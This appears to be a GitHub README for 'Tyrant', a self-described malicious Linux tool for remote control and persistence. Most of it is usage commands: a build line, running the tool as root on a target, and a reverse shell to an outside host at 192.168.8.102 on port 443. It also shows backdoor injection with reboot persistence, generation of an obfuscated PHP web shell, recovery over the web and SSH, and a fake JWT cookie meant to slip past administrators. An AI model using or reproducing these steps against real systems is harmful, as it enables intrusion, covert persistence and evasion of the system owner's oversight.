





# Tyrant



Tyrant is a malicious tool used for penetration testing and remote control persistence, featuring the following capabilities:

- **Reverse Shell**: Allows an attacker to initiate a shell session with the specified user UID, gaining the corresponding privileges.
- **Backdoor Injection & Persistence**: Injects a backdoor into the target system and ensures control is maintained even after a system reboot.
- **Tyrant Web Shell Upload**: Uploads and executes the Tyrant reverse shell via web access.
- **Encryption & Fake Protocols**: Uses fake JWT tokens and encrypted communication to bypass security detection.
- **SSH Recovery**: Allows the attacker to reconnect and restore the backdoor via SSH.

For more information and downloads, visit: [Tyrant GitHub](https://github.com/MartinxMax/Tyrant)

## Version 2 Compilation

First, install the dependencies:

```
# sudo apt-get install zlib1g-dev libzstd-dev
```

Then compile Tyrant:

```
$ gcc -static -o tyrant tyrant.c ./lib/core.c ./lib/random_md5.c -lssl -lcrypto -lz -lzstd
```



## Version 2 Release

Alternatively, you can download the Tyrant V2 release from the following link:

[Download Link](https://github.com/MartinxMax/Tyrant/releases/download/version-2.0/tyrant)



## Tyrant Initialization

Upload Tyrant to the target server and execute:

```
(Target) $ ./tyrant -h
```



**Note: Initial execution requires ROOT privileges!**

```
(Target) # chmod +x tyrant
(Target) # ./tyrant
```



## Tyrant Reverse Shell

```
Username             UID      Home Directory
--------             ----     ------------
root                 0        /bin/bash
daemon               1        /usr/sbin/nologin
bin                  2        /usr/sbin/nologin
sys                  3        /usr/sbin/nologin
sync                 65534    /bin/sync
games                60       /usr/sbin/nologin
man                  12       /usr/sbin/nologin
lp                   7        /usr/sbin/nologin
mail                 8        /usr/sbin/nologin
news                 9        /usr/sbin/nologin
uucp                 10       /usr/sbin/nologin
proxy                13       /usr/sbin/nologin
www-data             33       /usr/sbin/nologin
backup               34       /usr/sbin/nologin
list                 38       /usr/sbin/nologin
irc                  39       /usr/sbin/nologin
gnats                41       /usr/sbin/nologin
nobody               65534    /usr/sbin/nologin
systemd-network      102      /usr/sbin/nologin
systemd-resolve      103      /usr/sbin/nologin
syslog               106      (null)
messagebus           107      (null)
_apt                 65534    (null)
lxd                  65534    (null)
uuidd                110      (null)
dnsmasq              65534    /usr/sbin/nologin
landscape            112      (null)
pollinate            1        (null)
sshd                 65534    (null)
bob                  1004     /bin/bash
statd                65534    (null)
peter                1005     /bin/bash
insecurity           0        (null)
susan                1006     /bin/rbash
ntp                  113      (null)
```

```
(Target) $ ./tyrant -uid 0 -rhost 192.168.8.102 -rport 443
```


## Backdoor Mode & Persistence Control

**Injecting Backdoor**:

```
(Target) $ ./tyrant -b &
```


**View Backdoor Information**:

```
(Target) $ tyrant
```


**Upload Tyrant Web Shell**:

```
(Self) $ python tyrant_per.py -h
```


Note: The `id` refers to the machine's `mid`

```
(Self) $ python tyrant_per.py -id 01a2a9a7d07c4cf1881f57374930be93 -gen
```


Obfuscate the PHP code before uploading the PHP file:

[PHP Obfuscation Tool](https://php-minify.com/php-obfuscator/)

```
(Self) $ python3 tyrant_per.py -id 01a2a9a7d07c4cf1881f57374930be93 -uid 0 -rhost 192.168.8.102 -rport 443 -url http://192.168.8.103:8080/tyrant.php
```


Note: You must provide the correct `mid` value for the server validation to pass.

### Reboot and Automatically Load the Backdoor

Once the backdoor is initially started, the persistence mechanism will automatically add a scheduled task to restart it after a reboot:


### Backdoor Recovery

If the main backdoor program is deleted, you can restore the backdoor by running a subprogram.

### Automatic Recovery via Web (tyrant-persistent)

```
(Self) $ python3 tyrant_per.py -id 01a2a9a7d07c4cf1881f57374930be93 -uid 0 -rhost 192.168.8.102 -rport 443 -url http://192.168.8.103:8080/tyrant.php
```


Execute the command to reload the backdoor:

```
(Target) $ ls /usr/local/bin
```


### Automatic Recovery via SSH

```
(Self) $ ssh bob@192.168.8.103
```


Execute the new backdoor:

```
(Self) $ 7a3e88a5ad1a1d87e10df9fe807d7625 &
```


# About the Encryption Techniques & Fake Protocols Used in Tyrant

By simulating a man-in-the-middle attack, the Tyrant payload is embedded within a Cookie, which can be exploited as follows:


> Cookie: tyrant=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.SxMIVkMDQwdVUQUCDQJRVQgPUlJWUQIPDAhVBVVWDgcJAlFQBABSFUgSQgpQQVwTCBodREdfXERAGwkSU1wLHQEHWRxZF1AHVhIbQUYTCUNMGgtEAQMAFUk.Ag5WWgUFAQMGAQ

Using this fake JWT token, attackers can easily obfuscate and bypass administrator inspections.


**Prevent Replay Attacks**:


The server validates the timestamp to determine if the packet is outdated:


You can set the `timeout` field in `./php/rev` to control the packet expiration time, typically measured in seconds.


 